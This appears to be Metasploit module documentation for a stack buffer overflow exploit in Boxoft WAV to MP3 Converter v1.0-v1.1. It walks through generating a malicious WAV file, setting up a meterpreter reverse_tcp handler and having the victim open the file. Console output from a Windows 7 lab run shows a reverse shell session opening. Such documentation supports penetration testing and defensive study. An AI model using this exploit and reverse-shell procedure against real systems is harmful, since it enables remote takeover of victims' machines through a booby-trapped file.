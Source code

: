 
## Vulnerable Application

  This module exploits a stack-based buffer overflow in Boxoft WAV to MP3 Converter v1.0-v1.1. 

## Verification Steps

   1.  Install application on the target machine
   2.  Start msfconsole
   3.  Do: `use [exploit/multi/handler]`
   4.  Do: `set payload [windows/meterpreter/reverse_tcp]`
   5.  Do: `set LHOST [IP]`
   6.  Do: `run`
   7.  Do: `use [exploit/windows/fileformat/boxoft_wav_to_mp3]`
   8.  Do: `set payload [windows/meterpreter/reverse_tcp]`
   9.  Do: `set LHOST [IP]`
   10. Do: `run`
   11. Copy the generated file to the target machine
   12. Open Boxoft WAV to MP3 Converter
   13. Select `Next` at the bottom
   14. Select `Add`
   15. Browse to the file and select it
   16. Click `Convert to MP3`

   You should get a shell.

## Options

  **FILENAME**

  The filename that the shellcode gets written to. Setting a filename is not required, as there is a default name already set.

## Scenarios

### Tested on Windows 7 x86


  Run Exploit 

  ```
  msf > use exploit/windows/fileformat/boxoft_wav_to_mp3 
  msf exploit(windows/fileformat/boxoft_wav_to_mp3) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(windows/fileformat/boxoft_wav_to_mp3) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(windows/fileformat/boxoft_wav_to_mp3) > run

  [+] music.wav stored at /Users/space/.msf4/local/music.wav

  ```
  Set up Handler

  ```
  msf > use exploit/multi/handler
  msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] Sending stage (179779 bytes) to 192.168.37.138
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.138:49178) at 2018-06-29 14:41:11 -0500

  meterpreter > sysinfo
  Computer        : WIN7-LAB
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x86
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows

  ```
